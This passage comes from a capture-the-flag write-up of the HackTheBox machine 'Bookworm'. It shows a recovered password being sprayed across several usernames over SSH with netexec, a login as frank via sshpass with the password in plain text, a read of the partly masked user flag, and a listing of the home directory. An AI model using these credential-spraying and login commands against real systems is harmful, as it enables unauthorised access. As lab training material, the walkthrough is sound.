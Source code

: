 I’ve got three usernames from the `passwd` file, and now another username and
password from the database. `netexec` (formerly `crackmapexec`) is a quick way
to check if any work over SSH. I like to include `--continue-on-success` to
see if multiple users might use that password:

    
    
    oxdf@hacky$ netexec ssh bookworm.htb -u users.txt -p FrankTh3JobGiver --continue-on-success
    SSH         10.10.11.215    22     bookworm.htb     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.215    22     bookworm.htb     [+] frank:FrankTh3JobGiver  - shell access!
    SSH         10.10.11.215    22     bookworm.htb     [-] neil:FrankTh3JobGiver Authentication failed.
    SSH         10.10.11.215    22     bookworm.htb     [-] james:FrankTh3JobGiver Authentication failed.
    SSH         10.10.11.215    22     bookworm.htb     [-] bookworm:FrankTh3JobGiver Authentication failed.
    

It works for frank!

#### SSH

I’m able to get a shell as frank:

    
    
    oxdf@hacky$ sshpass -p FrankTh3JobGiver ssh frank@bookworm.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
    ...[snip]...
    frank@bookworm:~$ 
    

And `user.txt`:

    
    
    frank@bookworm:~$ cat user.txt
    067130be************************
    

## Shell as neil

### Enumeration

#### Home Directories

frank’s home directory is very empty:

    
    
    frank@bookworm:~$ ls -la
    total 36
    drwxr-xr-x 5 frank frank 4096 May 24  2023 .
    drwxr-xr-x 5 root  root  4096 Jun  5  2023 ..
    lrwxrwxrwx 1 root  root     9 Jan 30  2023 .bash_history -> /dev/null
    -rw-r--r-- 1 frank frank  220 Jan 30  2023 .bash_logout
    -rw-r--r-- 1 frank frank 3771 Jan 30  2023 .bashrc
    drwx------ 2 frank frank 4096 May  3  2023 .cache
    drwxrwxr-x 3 frank frank 4096 May  3  2023 .local
    lrwxrwxrwx 1 root  root     9 Jan 30  2023 .mysql_history -> /dev/null
    -rw-r--r-- 1 frank frank  807 Jan 30  2023 .profile
    drwx------ 2 frank frank 4096 May  3  2023 .ssh
    -rw-r----- 1 root  frank   33 Jan 17 11:14 user.txt
    